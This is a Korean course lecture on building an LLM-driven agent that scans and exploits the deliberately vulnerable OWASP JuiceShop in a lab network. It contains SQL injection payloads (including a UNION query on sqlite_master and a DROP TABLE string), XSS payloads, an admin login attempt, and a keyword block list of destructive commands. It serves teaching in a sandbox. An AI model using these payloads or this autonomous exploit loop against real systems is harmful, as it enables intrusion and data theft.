

# Week 14: 프로젝트 B — CTF 자동 풀이 에이전트

## 학습 목표

- JuiceShop의 취약점을 자동 스캔하는 Red Agent를 설계하고 구현한다
- Ollama LLM이 공격 전략을 수립하고 Bastion가 실행하는 파이프라인을 구축한다
- 취약점 발견 → 익스플로잇 → Evidence 기록 전체 흐름을 자동화한다
- 프로젝트 A(인시던트 대응)와 병행하여 구현과 테스트를 완료한다
- Red Agent의 안전한 실행을 위한 가드레일을 설계한다

## 실습 환경 (공통)

| 서버 | IP | 역할 | 접속 |
|------|-----|------|------|
| bastion | 10.20.30.201 | Control Plane (Bastion) | `ssh ccc@10.20.30.201` (pw: 1) |
| secu | 10.20.30.1 | 방화벽/IPS (nftables, Suricata) | `ssh ccc@10.20.30.1` |
| web | 10.20.30.80 | 웹서버 (JuiceShop:3000, Apache:80) | `ssh ccc@10.20.30.80` |
| siem | 10.20.30.100 | SIEM (Wazuh Dashboard:443, OpenCTI:8080) | `ssh ccc@10.20.30.100` |

## 강의 시간 배분 (3시간)

| 시간 | 파트 | 내용 | 형태 |
|------|------|------|------|
| 0:00-0:20 | Part 1 | 프로젝트 B 요구사항과 Red Agent 설계 | 이론 |
| 0:20-0:55 | Part 2 | JuiceShop 자동 스캔 모듈 | 실습 |
| 0:55-1:25 | Part 3 | LLM 공격 전략 수립 엔진 | 실습 |
| 1:25-1:35 | — | 휴식 | — |
| 1:35-2:10 | Part 4 | 자동 익스플로잇 + Evidence 기록 | 실습 |
| 2:10-2:40 | Part 5 | 프로젝트 A 진행 상황 점검 + 통합 | 실습 |
| 2:40-3:00 | Part 6 | 팀별 진행 발표 + 피드백 | 발표 |

## 용어 해설 (AI보안에이전트 과목)

| 용어 | 설명 | 예시 |
|------|------|------|
| **CTF** | Capture The Flag, 보안 기술 대회 형식 | JuiceShop 챌린지 풀기 |
| **Red Agent** | 공격 측 자율 에이전트 | LLM이 공격 전략 수립, 실행 |
| **JuiceShop** | OWASP 취약 웹 애플리케이션 (학습용) | 다양한 웹 취약점 실습 환경 |
| **스캔 (Scan)** | 대상 시스템의 취약점/정보를 탐색하는 행위 | 엔드포인트 열거, 버전 확인 |
| **익스플로잇 (Exploit)** | 발견된 취약점을 실제로 공격하는 행위 | SQL Injection으로 데이터 추출 |
| **페이로드 (Payload)** | 익스플로잇에 사용되는 악성 데이터 | `' OR 1=1--` (SQLi 페이로드) |
| **OWASP Top 10** | 웹 애플리케이션 상위 10대 보안 위협 | Injection, XSS, SSRF 등 |
| **API 엔드포인트** | REST API의 접근 경로 | `/api/products`, `/rest/admin` |
| **HTTP 상태 코드** | 서버 응답 결과 코드 | 200=성공, 401=인증 필요, 500=서버 오류 |
| **가드레일** | Red Agent의 공격 범위를 제한하는 안전장치 | 대상 IP 제한, 파괴적 공격 금지 |
| **Scope** | 공격/점검 허용 범위 | 10.20.30.80:3000만 대상 |
| **Challenge** | JuiceShop의 개별 보안 과제 | Score Board 접근, Admin 로그인 |
| **enumerate** | 대상의 정보를 체계적으로 수집 | API 엔드포인트 목록 추출 |
| **flag** | CTF에서 취약점 공략 성공의 증거 | 특정 문자열/해시값 |
| **rate-limiting** | 요청 빈도를 제한하는 보호 메커니즘 | 1초당 최대 5 요청 |
| **kill-switch** | 에이전트를 즉시 중단시키는 안전 장치 | risk_level=critical → 즉시 중지 |

---

## Part 1: 프로젝트 B 요구사항과 Red Agent 설계 (0:00-0:20)

### 1.1 프로젝트 요구사항

| 항목 | 요구사항 |
|------|---------|
| 팀 구성 | 2-3명 (프로젝트 A와 동일 팀) |
| 목표 | JuiceShop 취약점을 자동 발견+익스플로잇하는 Red Agent |
| 대상 | http://10.20.30.80:3000 (JuiceShop만) |
| LLM | Ollama gemma3:12b 또는 llama3.1:8b |
| 안전장치 | 대상 제한, 파괴적 공격 금지, Evidence 전수 기록 |
| 평가 | 발견 취약점 수 + Evidence 품질 + 안전성 준수 |

### 1.2 Red Agent 아키텍처

```
[CTF 자동 풀이 Red Agent]

  1.정찰 → 2.분석 → 3.전략 → 4.실행 → 5.검증 → 6.기록
  Scan     LLM      LLM      Bastion   결과확인   Evidence
  HTTP     분석      계획     dispatch
```

### 1.3 안전 규칙 (가드레일)

| 규칙 | 설명 |
|------|------|
| 대상 제한 | http://10.20.30.80:3000만 공격 허용 |
| 파괴적 공격 금지 | rm, DROP, shutdown 등 금지 |
| DoS 금지 | 대량 요청으로 서비스 마비 금지 |
| 시스템 접근 금지 | 서버 자체 접근 시도 금지 (웹 취약점만) |
| rate-limit | 1초당 최대 5 요청 |
| 모든 행위 기록 | Evidence에 전수 기록 |

---

## Part 2: JuiceShop 자동 스캔 모듈 (0:20-0:55)

### 2.1 JuiceShop 기본 정찰

> **실습 목적**: 에이전트를 프로덕션 환경에 배포하기 위한 운영 체계(모니터링, 장애 대응, 업데이트)를 설계하기 위해 수행한다
>
> **배우는 것**: 에이전트 헬스체크, 성능 모니터링, 자동 복구, 롤백 전략 등 프로덕션 운영에 필요한 요소를 이해한다
>
> **결과 해석**: 에이전트의 응답 시간, 에러율, 리소스 사용량 추이로 운영 상태를 판단하고 이상 징후를 탐지한다
>
> **실전 활용**: AI 에이전트 프로덕션 배포, 운영 SLA 관리, 장애 대응 프로세스 수립에 활용한다

```bash
# JuiceShop 기본 정보 수집
export BASTION_API_KEY=ccc-api-key-2026

# 프로젝트 B 생성
RESP=$(curl -s -X POST http://localhost:9100/projects \
  -H "Content-Type: application/json" \
  -H "X-API-Key: $BASTION_API_KEY" \
  -d '{"name":"project-B-ctf-agent","request_text":"CTF 자동 풀이 Red Agent","master_mode":"external"}')
# 프로젝트 ID 추출
PB_PID=$(echo "$RESP" | python3 -c "import sys,json; print(json.load(sys.stdin)['project']['id'])")
echo "Project B ID: $PB_PID"

# Stage 전환
curl -s -X POST "http://localhost:9100/projects/${PB_PID}/plan" \
  -H "X-API-Key: $BASTION_API_KEY" > /dev/null
# execute 단계 전환
curl -s -X POST "http://localhost:9100/projects/${PB_PID}/execute" \
  -H "X-API-Key: $BASTION_API_KEY" > /dev/null

# 1단계: JuiceShop 기본 정찰
curl -s -X POST "http://localhost:9100/projects/${PB_PID}/execute-plan" \
  -H "Content-Type: application/json" \
  -H "X-API-Key: $BASTION_API_KEY" \
  -d '{
    "tasks": [
      {
        "order": 1,
        "instruction_prompt": "curl -s -o /dev/null -w \"%{http_code} %{size_download} %{time_total}\" http://localhost:3000/",
        "risk_level": "low",
        "subagent_url": "http://10.20.30.80:8002"
      },
      {
        "order": 2,
        "instruction_prompt": "curl -s http://localhost:3000/api/products | python3 -c \"import sys,json; data=json.load(sys.stdin); print(f\\\"Products: {data.get(\\\\\\\"status\\\\\\\",\\\\\\\"?\\\\\\\")}, Count: {len(data.get(\\\\\\\"data\\\\\\\",[]))}\\\"  )\" 2>/dev/null || echo api-check-done",
        "risk_level": "low",
        "subagent_url": "http://10.20.30.80:8002"
      },
      {
        "order": 3,
        "instruction_prompt": "curl -s http://localhost:3000/rest/admin/application-configuration 2>/dev/null | head -100 || echo admin-config-check",
        "risk_level": "medium",
        "subagent_url": "http://10.20.30.80:8002"
      }
    ],
    "subagent_url": "http://localhost:8002"
  }' | python3 -m json.tool
# task1: 기본 응답 확인, task2: API 접근, task3: admin 설정 접근 시도
```

### 2.2 자동 스캔 모듈 구현

```python
#!/usr/bin/env python3
"""juiceshop_scanner.py — JuiceShop 자동 스캔 모듈"""
import json
import time
import requests

TARGET = "http://10.20.30.80:3000"
MANAGER_URL = "http://localhost:9100"
API_KEY = "ccc-api-key-2026"
HEADERS = {"Content-Type": "application/json", "X-API-Key": API_KEY}

class JuiceShopScanner:
    """JuiceShop 취약점을 자동으로 스캔한다."""

    # 스캔 대상 엔드포인트 목록
    ENDPOINTS = [
        {"path": "/", "method": "GET", "description": "메인 페이지"},
        {"path": "/api/products", "method": "GET", "description": "상품 API"},
        {"path": "/api/Feedbacks", "method": "GET", "description": "피드백 API"},
        {"path": "/api/Users", "method": "GET", "description": "사용자 API"},
        {"path": "/api/Quantitys", "method": "GET", "description": "수량 API"},
        {"path": "/rest/admin/application-configuration", "method": "GET", "description": "관리자 설정"},
        {"path": "/rest/products/search?q=test", "method": "GET", "description": "검색 API"},
        {"path": "/api/SecurityQuestions", "method": "GET", "description": "보안 질문 API"},
        {"path": "/rest/user/login", "method": "POST", "description": "로그인 API"},
        {"path": "/#/score-board", "method": "GET", "description": "Score Board"},
        {"path": "/ftp", "method": "GET", "description": "FTP 디렉토리"},
        {"path": "/api/Complaints", "method": "GET", "description": "불만 API"},
        {"path": "/metrics", "method": "GET", "description": "메트릭 엔드포인트"},
        {"path": "/api/Recycles", "method": "GET", "description": "재활용 API"},
    ]

    def __init__(self, project_id: str = None):
        self.project_id = project_id
        self.findings = []

    def scan_endpoint(self, endpoint: dict) -> dict:
        """단일 엔드포인트를 스캔한다."""
        url = f"{TARGET}{endpoint['path']}"
        try:
            if endpoint["method"] == "POST":
                resp = requests.post(url, json={}, timeout=10)
            else:
                resp = requests.get(url, timeout=10)

            result = {
                "path": endpoint["path"],
                "method": endpoint["method"],
                "description": endpoint["description"],
                "status_code": resp.status_code,
                "content_length": len(resp.content),
                "interesting": False,
                "notes": [],
            }

            # 흥미로운 발견 체크
            if resp.status_code == 200 and "admin" in endpoint["path"]:
                result["interesting"] = True
                result["notes"].append("관리자 엔드포인트 접근 가능")

            if resp.status_code == 200 and "User" in endpoint["path"]:
                result["interesting"] = True
                result["notes"].append("사용자 정보 노출 가능")

            if resp.status_code != 404 and endpoint["path"] == "/ftp":
                result["interesting"] = True
                result["notes"].append("FTP 디렉토리 접근 가능")

            if "error" in resp.text.lower() and resp.status_code >= 400:
                result["interesting"] = True
                result["notes"].append("에러 메시지에 정보 노출 가능성")

            return result

        except Exception as e:
            return {
                "path": endpoint["path"],
                "status_code": -1,
                "error": str(e),
            }

    def full_scan(self) -> list:
        """전체 엔드포인트 스캔을 수행한다."""
        print(f"[SCAN] {len(self.ENDPOINTS)}개 엔드포인트 스캔 시작")
        results = []

        for i, ep in enumerate(self.ENDPOINTS):
            # rate-limit: 1초당 5 요청
            if i > 0 and i % 5 == 0:
                time.sleep(1)

            result = self.scan_endpoint(ep)
            results.append(result)

            # 스캔 진행 상황 출력
            status = result.get("status_code", "?")
            marker = "*" if result.get("interesting") else " "
            print(f"  [{marker}] {ep['method']:>4} {ep['path']:<50} → {status}")

            if result.get("interesting"):
                self.findings.append(result)

        print(f"\n[SCAN] 완료: {len(results)}건 스캔, {len(self.findings)}건 발견")
        return results

    def sql_injection_test(self) -> list:
        """SQL Injection 취약점을 테스트한다."""
        print("\n[SQLi] SQL Injection 테스트 시작")
        payloads = [
            ("' OR 1=1--", "기본 SQLi"),
            ("' UNION SELECT null--", "UNION 기반"),
            ("'; DROP TABLE--", "파괴적 (탐지용)"),
            ("1' AND '1'='1", "Blind SQLi"),
        ]

        results = []
        for payload, desc in payloads:
            url = f"{TARGET}/rest/products/search?q={payload}"
            try:
                resp = requests.get(url, timeout=10)
                result = {
                    "payload": payload,
                    "description": desc,
                    "status_code": resp.status_code,
                    "response_length": len(resp.content),
                    "vulnerable": resp.status_code == 200 and len(resp.content) > 100,
                }
                results.append(result)
                # SQLi 테스트 결과 출력
                vuln = "VULN" if result["vulnerable"] else "SAFE"
                print(f"  [{vuln}] {desc}: {payload[:30]} → {resp.status_code}")
            except Exception as e:
                results.append({"payload": payload, "error": str(e)})
            # rate-limit
            time.sleep(0.5)

        return results

    def xss_test(self) -> list:
        """XSS 취약점을 테스트한다."""
        print("\n[XSS] XSS 테스트 시작")
        payloads = [
            ("<script>alert(1)</script>", "기본 XSS"),
            ("", "이벤트 핸들러"),
            ("javascript:alert(1)", "자바스크립트 프로토콜"),
        ]

        results = []
        for payload, desc in payloads:
            url = f"{TARGET}/rest/products/search?q={payload}"
            try:
                resp = requests.get(url, timeout=10)
                # 응답에 페이로드가 그대로 반영되는지 확인
                reflected = payload in resp.text
                result = {
                    "payload": payload,
                    "description": desc,
                    "status_code": resp.status_code,
                    "reflected": reflected,
                }
                results.append(result)
                # XSS 테스트 결과 출력
                marker = "REFLECTED" if reflected else "FILTERED"
                print(f"  [{marker}] {desc}: {payload[:30]}")
            except Exception as e:
                results.append({"payload": payload, "error": str(e)})
            time.sleep(0.5)

        return results


if __name__ == "__main__":
    scanner = JuiceShopScanner()

    # 1. 전체 엔드포인트 스캔
    scan_results = scanner.full_scan()

    # 2. SQL Injection 테스트
    sqli_results = scanner.sql_injection_test()

    # 3. XSS 테스트
    xss_results = scanner.xss_test()

    # 4. 종합 리포트
    print("\n" + "=" * 60)
    print("=== CTF 자동 스캔 종합 리포트 ===")
    print(f"엔드포인트 스캔: {len(scan_results)}건")
    print(f"흥미로운 발견: {len(scanner.findings)}건")
    print(f"SQLi 테스트: {len(sqli_results)}건")
    print(f"XSS 테스트: {len(xss_results)}건")
    if scanner.findings:
        print("\n주요 발견:")
        for f in scanner.findings:
            # 각 발견 항목 출력
            print(f"  - {f['path']}: {', '.join(f.get('notes', []))}")
```

### 2.3 Bastion를 통한 스캔 실행

```bash
# 스캔 결과를 Bastion dispatch로 수집
export BASTION_API_KEY=ccc-api-key-2026

# web 서버에서 직접 JuiceShop 엔드포인트 스캔
curl -s -X POST "http://localhost:9100/projects/${PB_PID}/execute-plan" \
  -H "Content-Type: application/json" \
  -H "X-API-Key: $BASTION_API_KEY" \
  -d '{
    "tasks": [
      {
        "order": 1,
        "instruction_prompt": "for path in / /api/products /api/Users /rest/admin/application-configuration /ftp /metrics; do echo \"$path: $(curl -s -o /dev/null -w %{http_code} http://localhost:3000$path)\"; done",
        "risk_level": "low",
        "subagent_url": "http://10.20.30.80:8002"
      },
      {
        "order": 2,
        "instruction_prompt": "curl -s \"http://localhost:3000/rest/products/search?q=test'\" -o /dev/null -w \"%{http_code}\" && echo ' -- SQLi probe done'",
        "risk_level": "medium",
        "subagent_url": "http://10.20.30.80:8002"
      }
    ],
    "subagent_url": "http://localhost:8002"
  }' | python3 -m json.tool
# task1: 주요 엔드포인트 상태 확인, task2: SQLi 프로브
```

---

## Part 3: LLM 공격 전략 수립 엔진 (0:55-1:25)

### 3.1 공격 전략 생성

```bash
# Red Agent LLM이 스캔 결과를 기반으로 공격 전략 수립
curl -s http://10.20.30.200:11434/api/chat \
  -d '{
    "model": "gemma3:12b",
    "messages": [
      {
        "role": "system",
        "content": "당신은 OWASP JuiceShop CTF 풀이 전문가입니다. 스캔 결과를 분석하고 다음 공격 계획을 JSON 배열로 제시하세요. 각 항목: {\"order\": N, \"target\": \"엔드포인트\", \"technique\": \"기법\", \"command\": \"curl 명령\", \"risk_level\": \"low|medium|high\"}. 안전한 CTF 환경이므로 웹 취약점 테스트만 수행합니다."
      },
      {
        "role": "user",
        "content": "스캔 결과:\n- /api/products: 200 (접근 가능)\n- /api/Users: 200 (사용자 정보 노출)\n- /rest/admin/application-configuration: 200 (관리자 설정 접근 가능)\n- /ftp: 200 (FTP 디렉토리 노출)\n- /rest/products/search?q=test: 200 (검색 API 활성)\n\n3단계 공격 계획을 수립해주세요."
      }
    ],
    "stream": false,
    "options": {"temperature": 0.2}
  }' | python3 -c "
import sys, json
# LLM 공격 전략 출력
resp = json.load(sys.stdin)
print(resp['message']['content'][:2000])
"
```

### 3.2 공격 전략 엔진 구현

```python
#!/usr/bin/env python3
"""attack_strategist.py — LLM 기반 공격 전략 수립 엔진"""
import json
import requests

OLLAMA_URL = "http://10.20.30.200:11434"

class AttackStrategist:
    """스캔 결과를 분석하여 공격 전략을 수립한다."""

    SYSTEM_PROMPT = """당신은 OWASP JuiceShop CTF 보안 점검 전문가입니다.
스캔 결과를 분석하고 다음 JSON 형식으로 공격 계획을 수립하세요:

[
  {
    "order": 1,
    "target": "엔드포인트 경로",
    "technique": "공격 기법 (예: sql_injection, xss, auth_bypass)",
    "command": "실행할 curl 명령",
    "risk_level": "low|medium|high",
    "expected_result": "예상 결과"
  }
]

규칙:
- JuiceShop(http://localhost:3000)만 대상
- curl 명령만 사용
- 파괴적 명령 금지 (DELETE, DROP 등)
- 최대 5단계
- 반드시 JSON 배열만 출력"""

    def __init__(self, model: str = "gemma3:12b"):
        self.model = model

    def generate_strategy(self, scan_results: list) -> list:
        """스캔 결과를 기반으로 공격 전략을 생성한다."""
        # 스캔 결과를 텍스트로 변환
        scan_text = "스캔 결과:\n"
        for r in scan_results:
            if r.get("status_code", 0) == 200:
                notes = ", ".join(r.get("notes", [])) or "접근 가능"
                scan_text += f"- {r['path']}: {r['status_code']} ({notes})\n"

        try:
            resp = requests.post(
                f"{OLLAMA_URL}/api/chat",
                json={
                    "model": self.model,
                    "messages": [
                        {"role": "system", "content": self.SYSTEM_PROMPT},
                        {"role": "user", "content": scan_text},
                    ],
                    "stream": False,
                    "options": {"temperature": 0.2},
                },
                timeout=120,
            )
            content = resp.json()["message"]["content"]
            # JSON 추출
            try:
                if "```" in content:
                    json_str = content.split("```")[1]
                    if json_str.startswith("json"):
                        json_str = json_str[4:]
                    strategy = json.loads(json_str.strip())
                else:
                    strategy = json.loads(content.strip())
                print(f"[STRATEGY] {len(strategy)}단계 공격 전략 생성")
                return strategy
            except json.JSONDecodeError:
                print(f"[STRATEGY] JSON 파싱 실패, 원문 반환")
                return [{"order": 1, "raw": content[:500], "error": "parse_failed"}]
        except Exception as e:
            return [{"error": str(e)}]

    def validate_strategy(self, strategy: list) -> list:
        """전략의 안전성을 검증한다."""
        validated = []
        for step in strategy:
            cmd = step.get("command", "")
            issues = []

            # 안전성 검사
            if "rm " in cmd or "DROP" in cmd:
                issues.append("파괴적 명령 포함")
            if "localhost:3000" not in cmd and "10.20.30.80:3000" not in cmd:
                # 대상 외 접근인지 확인
                if "curl" in cmd:
                    issues.append("대상 범위 외 접근")

            step["safe"] = len(issues) == 0
            step["issues"] = issues
            validated.append(step)
            # 검증 결과 출력
            marker = "OK" if step["safe"] else "BLOCKED"
            print(f"  [{marker}] step {step.get('order', '?')}: {step.get('technique', '?')}")
            for issue in issues:
                print(f"    -> {issue}")

        return validated


if __name__ == "__main__":
    strategist = AttackStrategist()

    # 샘플 스캔 결과
    mock_scan = [
        {"path": "/api/products", "status_code": 200, "notes": ["접근 가능"]},
        {"path": "/api/Users", "status_code": 200, "notes": ["사용자 정보 노출 가능"]},
        {"path": "/rest/admin/application-configuration", "status_code": 200, "notes": ["관리자 설정 접근 가능"]},
        {"path": "/rest/products/search?q=test", "status_code": 200, "notes": ["검색 API 활성"]},
        {"path": "/ftp", "status_code": 200, "notes": ["FTP 디렉토리 노출"]},
    ]

    print("=== 공격 전략 생성 ===")
    strategy = strategist.generate_strategy(mock_scan)
    print(json.dumps(strategy, indent=2, ensure_ascii=False)[:1000])

    print("\n=== 전략 안전성 검증 ===")
    validated = strategist.validate_strategy(strategy)
```

---

## Part 4: 자동 익스플로잇 + Evidence 기록 (1:35-2:10)

### 4.1 자동 익스플로잇 실행

```bash
# LLM이 수립한 전략을 Bastion execute-plan으로 실행
export BASTION_API_KEY=ccc-api-key-2026

# 3단계 익스플로잇 실행
curl -s -X POST "http://localhost:9100/projects/${PB_PID}/execute-plan" \
  -H "Content-Type: application/json" \
  -H "X-API-Key: $BASTION_API_KEY" \
  -d '{
    "tasks": [
      {
        "order": 1,
        "instruction_prompt": "curl -s http://localhost:3000/api/Users | python3 -c \"import sys,json; d=json.load(sys.stdin); print(f\\\"Users found: {len(d.get(\\\\\\\"data\\\\\\\",  []))}건\\\"); [print(f\\\"  - {u.get(\\\\\\\"email\\\\\\\",\\\\\\\"?\\\\\\\")} role={u.get(\\\\\\\"role\\\\\\\",\\\\\\\"?\\\\\\\")}\\\") for u in d.get(\\\\\\\"data\\\\\\\",[])[:5]]\" 2>/dev/null || echo user-enum-done",
        "risk_level": "medium",
        "subagent_url": "http://10.20.30.80:8002"
      },
      {
        "order": 2,
        "instruction_prompt": "curl -s http://localhost:3000/rest/products/search?q=qwert%27%29%29+UNION+SELECT+sql%2C%272%27%2C%273%27%2C%274%27%2C%275%27%2C%276%27%2C%277%27%2C%278%27%2C%279%27+FROM+sqlite_master-- | head -200",
        "risk_level": "high",
        "subagent_url": "http://10.20.30.80:8002"
      },
      {
        "order": 3,
        "instruction_prompt": "curl -s -X POST http://localhost:3000/rest/user/login -H 'Content-Type: application/json' -d '{\"email\":\"admin@juice-sh.op\",\"password\":\"admin123\"}' | head -100",
        "risk_level": "medium",
        "subagent_url": "http://10.20.30.80:8002"
      }
    ],
    "subagent_url": "http://localhost:8002"
  }' | python3 -m json.tool
# task1: 사용자 열거, task2: UNION SQLi, task3: 관리자 로그인 시도
```

### 4.2 익스플로잇 실행기 구현

```python
#!/usr/bin/env python3
"""exploit_executor.py — 자동 익스플로잇 실행기"""
import json
import time
import requests

MANAGER_URL = "http://localhost:9100"
API_KEY = "ccc-api-key-2026"
HEADERS = {"Content-Type": "application/json", "X-API-Key": API_KEY}

class ExploitExecutor:
    """검증된 공격 전략을 Bastion를 통해 실행한다."""

    def __init__(self, project_id: str):
        self.project_id = project_id
        self.results = []

    def execute_strategy(self, strategy: list) -> list:
        """전략의 각 단계를 순차적으로 실행한다."""
        # 안전한 단계만 필터링
        safe_steps = [s for s in strategy if s.get("safe", True)]
        print(f"[EXEC] {len(safe_steps)}/{len(strategy)} 단계 실행 예정")

        tasks = []
        for step in safe_steps:
            task = {
                "order": step.get("order", len(tasks) + 1),
                "instruction_prompt": step.get("command", "echo no-command"),
                "risk_level": step.get("risk_level", "medium"),
                "subagent_url": "http://10.20.30.80:8002",
            }
            tasks.append(task)

        if not tasks:
            print("[EXEC] 실행할 태스크 없음")
            return []

        # Bastion execute-plan으로 일괄 실행
        try:
            resp = requests.post(
                f"{MANAGER_URL}/projects/{self.project_id}/execute-plan",
                headers=HEADERS,
                json={
                    "tasks": tasks,
                    "subagent_url": "http://localhost:8002",
                },
            )
            result = resp.json()
            # 실행 결과 출력
            print(f"[EXEC] 실행 완료: {resp.status_code}")
            self.results.append(result)
            return [result]
        except Exception as e:
            print(f"[EXEC] 실행 오류: {e}")
            return [{"error": str(e)}]

    def get_evidence(self) -> dict:
        """프로젝트의 evidence를 조회한다."""
        resp = requests.get(
            f"{MANAGER_URL}/projects/{self.project_id}/evidence/summary",
            headers={"X-API-Key": API_KEY},
        )
        return resp.json()

    def generate_report(self) -> dict:
        """익스플로잇 결과 보고서를 생성한다."""
        evidence = self.get_evidence()
        report = {
            "project_id": self.project_id,
            "total_exploits": len(self.results),
            "evidence": evidence,
            "timestamp": time.strftime("%Y-%m-%dT%H:%M:%SZ"),
        }
        # 보고서 요약 출력
        print(f"\n[REPORT] 익스플로잇 보고서")
        print(f"  프로젝트: {self.project_id}")
        print(f"  실행 횟수: {len(self.results)}")
        print(f"  Evidence: {json.dumps(evidence, indent=2, ensure_ascii=False)[:300]}")
        return report


if __name__ == "__main__":
    print("ExploitExecutor — Bastion 프로젝트 ID로 초기화하여 사용")
    print("사용법:")
    print("  executor = ExploitExecutor('프로젝트ID')")
    print("  executor.execute_strategy(validated_strategy)")
    print("  executor.generate_report()")
```

### 4.3 Evidence 확인

```bash
# 프로젝트 B evidence 확인
export BASTION_API_KEY=ccc-api-key-2026

# evidence 요약
curl -s -H "X-API-Key: $BASTION_API_KEY" \
  "http://localhost:9100/projects/${PB_PID}/evidence/summary" | python3 -m json.tool

# 전체 replay
curl -s -H "X-API-Key: $BASTION_API_KEY" \
  "http://localhost:9100/projects/${PB_PID}/replay" | python3 -m json.tool

# PoW 블록 확인 (web 서버 에이전트)
curl -s -H "X-API-Key: $BASTION_API_KEY" \
  "http://localhost:9100/pow/blocks?agent_id=http://10.20.30.80:8002" | python3 -m json.tool
```

---

## Part 5: 프로젝트 A 진행 상황 점검 + 통합 (2:10-2:40)

### 5.1 프로젝트 A 체크리스트

각 팀은 프로젝트 A(인시던트 대응)의 진행 상황을 확인한다:

| 체크 항목 | 완료 여부 | 확인 방법 |
|-----------|----------|----------|
| Wazuh 경보 수집 모듈 | [ ] | 경보 5건 이상 수집 |
| LLM 분석 엔진 | [ ] | 3건 이상 분석 결과 생성 |
| nftables 차단 모듈 | [ ] | 차단 명령 실행 (dry_run 포함) |
| Slack 알림 | [ ] | 알림 1건 이상 전송 |
| Evidence 기록 | [ ] | evidence 10건 이상 |
| Bastion 프로젝트 | [ ] | 프로젝트 ID 확인 |

### 5.2 프로젝트 A+B 통합 데모

```bash
# 프로젝트 A와 B의 evidence를 함께 조회하여 통합 현황 파악
export BASTION_API_KEY=ccc-api-key-2026

echo "=== 프로젝트 A (인시던트 대응) ==="
# 프로젝트 A evidence
curl -s -H "X-API-Key: $BASTION_API_KEY" \
  "http://localhost:9100/projects/${PA_PID}/evidence/summary" 2>/dev/null | python3 -m json.tool || echo "ID 필요"

echo ""
echo "=== 프로젝트 B (CTF 에이전트) ==="
# 프로젝트 B evidence
curl -s -H "X-API-Key: $BASTION_API_KEY" \
  "http://localhost:9100/projects/${PB_PID}/evidence/summary" 2>/dev/null | python3 -m json.tool || echo "ID 필요"

echo ""
echo "=== 전체 PoW 리더보드 ==="
# 에이전트별 작업량 비교
curl -s -H "X-API-Key: $BASTION_API_KEY" \
  "http://localhost:9100/pow/leaderboard" | python3 -m json.tool
```

### 5.3 Red/Blue 연동 시나리오

```bash
# Red Agent(프로젝트 B)가 발견한 취약점을 Blue Agent(프로젝트 A)가 방어
export BASTION_API_KEY=ccc-api-key-2026

# Red Agent 발견 → Blue Agent 방어 연계 태스크
# Red가 발견한 SQL Injection을 Blue가 탐지하는지 확인
curl -s -X POST "http://localhost:9100/projects/${PA_PID}/dispatch" \
  -H "Content-Type: application/json" \
  -H "X-API-Key: $BASTION_API_KEY" \
  -d '{
    "command": "tail -20 /var/log/suricata/eve.json 2>/dev/null | grep -i sql | head -5 || echo no-sqli-alerts",
    "subagent_url": "http://10.20.30.1:8002"
  }' | python3 -m json.tool
# Suricata에서 SQL Injection 관련 경보 확인
```

---

## Part 6: 팀별 진행 발표 + 피드백 (2:40-3:00)

### 6.1 프로젝트 B 진행 상황 발표

각 팀은 3분 내에 다음 내용을 발표한다:

| 항목 | 내용 |
|------|------|
| 스캔 결과 | 발견된 엔드포인트와 흥미로운 점 |
| 공격 전략 | LLM이 수립한 공격 계획 |
| 익스플로잇 | 성공한 취약점 목록 |
| Evidence | Bastion evidence 수와 주요 기록 |
| 프로젝트 A 연계 | Red→Blue 연동 현황 |

### 6.2 프로젝트 과제

**이번 주 마감 (Week 14)**:

프로젝트 B:
1. JuiceShop 엔드포인트 스캔 완료 (10개 이상)
2. LLM 공격 전략 3단계 이상 생성
3. 최소 2개 취약점 익스플로잇 성공
4. Evidence 15건 이상 기록
5. 가드레일 위반 0건 확인

프로젝트 A 병행:
6. 전체 파이프라인 10건 이상 자동 처리 완료
7. Slack 알림 연동 완료

**다음 주 (Week 15) 준비**:
- 프로젝트 C (보안 교육 에이전트) 통합 시연 준비
- 3개 프로젝트 최종 completion-report 작성
- 발표 슬라이드 준비 (팀당 10분)

**제출물**:
- Bastion 프로젝트 B ID
- evidence summary 스크린샷
- 발견 취약점 리스트 (JSON)

---

## 📂 실습 참조 파일 가이드

> 이번 주 실습에서 **실제로 조작하는** 솔루션의 기능·경로·파일·설정·UI 요점입니다.

### CCC Bastion Agent
> **역할:** CCC 자율 운영 에이전트 — 스킬/플레이북/경험 학습  
> **실행 위치:** `bastion (10.20.30.201)`  
> **접속/호출:** TUI `./dev.sh bastion`, API `http://10.20.30.200:8003` (Bastion /ask·/chat)

**주요 경로·파일**

| 경로 | 역할 |
|------|------|
| `packages/bastion/agent.py` | 메인 에이전트 루프 |
| `packages/bastion/skills.py` | 스킬 정의 |
| `packages/bastion/playbooks/` | 정적 플레이북 YAML |
| `data/bastion/experience/` | 수집된 경험 (pass/fail) |

**핵심 설정·키**

- `LLM_BASE_URL / LLM_MODEL` — Ollama 연결
- `CCC_API_KEY` — ccc-api 인증
- `max_retry=2` — 실패 시 self-correction 재시도

**로그·확인 명령**

- ``docs/test-status.md`` — 현재 테스트 진척 요약
- ``bastion_test_progress.json`` — 스텝별 pass/fail 원시

**UI / CLI 요점**

- 대화형 TUI 프롬프트 — 자연어 지시 → 계획 → 실행 → 검증
- `/a2a/mission` (API) — 자율 미션 실행
- Experience→Playbook 승격 — 반복 성공 패턴 저장

> **해석 팁.** 실패 시 output을 분석해 **근본 원인 교정**이 설계의 핵심. 증상 회피/땜빵은 금지.

---

## 실제 사례 (WitFoo Precinct 6 — CTF 자동 풀이 에이전트)

> 출처: WitFoo Precinct 6 Cybersecurity Dataset (Apache 2.0)
> 본 lecture *프로젝트 B: CTF 자동 풀이 에이전트* 학습 항목 매칭.

### CTF Agent = "공격 시나리오 자동 풀이"

dataset 의 attack chain (예: recon → exploit → privesc → exfil) 을 *CTF 미션으로 변환* 하여 — 에이전트가 자동 풀이. NYU CTF, Cybench 등 표준 CTF 벤치 활용.



### Case 1: CTF Agent KPI

| KPI | 임계 |
|---|---|
| 풀이 성공률 | ≥60% (Easy CTF) |
| 평균 풀이 시간 | ≤30분 |
| 사람 개입 | 0회 |

### Case 2: dataset chain → CTF 변환

| dataset | CTF 미션 |
